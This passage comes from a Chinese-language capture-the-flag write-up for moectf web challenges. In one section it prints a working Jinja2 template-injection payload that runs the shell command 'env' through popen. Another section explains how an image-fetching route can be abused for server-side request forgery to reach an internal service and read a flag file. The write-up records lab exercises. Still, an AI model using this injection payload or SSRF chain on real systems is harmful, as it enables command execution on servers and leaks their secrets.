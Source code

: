 ```python
    }
    resp = s.post(url,data=data)
    print(resp.text)
    time.sleep(0.1)
```

![22](https://the0n3.top/medias/moectf/22.png)

## who's blog?

在首页通过get传参id，可以发现存在ssti模板注入，好像没有过滤，一路直接打过去了

::: v-pre 
`?id={{''.__class__.__base__.__subclasses__()[137].__init__.__globals__['popen']('env').read()}}`
:::

![23](https://the0n3.top/medias/moectf/23.png)

## ImageCloud

这个题太有意思了，第一次这样审计python源码

在题目中，点明了跑了两个服务，一个内部云，一个外部云。那么我们能看到的无疑就是外部云了，通过url的请求确定是`app.py`文件的源码
，所以`app2.py`就是内部云的源码

主要区别:


内部云`app2.py`，通过`/image/<filename>`路由，访问`uploads/`目录下的`filename`文件
```python
@app.route('/image/<filename>', methods=['GET'])
def load_image(filename):
    filepath = os.path.join(app.config['UPLOAD_FOLDER'], filename)
    if os.path.exists(filepath):
        mime = get_mimetype(filepath)
        return send_file(filepath, mimetype=mime)
    else:
        return '文件未找到', 404
```

外部云`app.py`，通过get参数`url`访问static目录下的文件，我们上传的图片也只能通过外部云访问，如果能通过ssrf找到内部云端口，可以利用外部云调用内部云`/image/<filename>`接口访问`uploads/flag.jpg`

```python
@app.route('/image', methods=['GET'])
def load_image():
    url = request.args.get('url')
    if not url:
        return 'URL 参数缺失', 400

    try:
        response = requests.get(url)
        response.raise_for_status()
        img = Image.open(BytesIO(response.content))

        img_io = BytesIO()
        img.save(img_io, img.format)
        img_io.seek(0)
        return send_file(img_io, mimetype=img.get_format_mimetype())
    except Exception as e:
        return f"无法加载图片: {str(e)}", 400
```

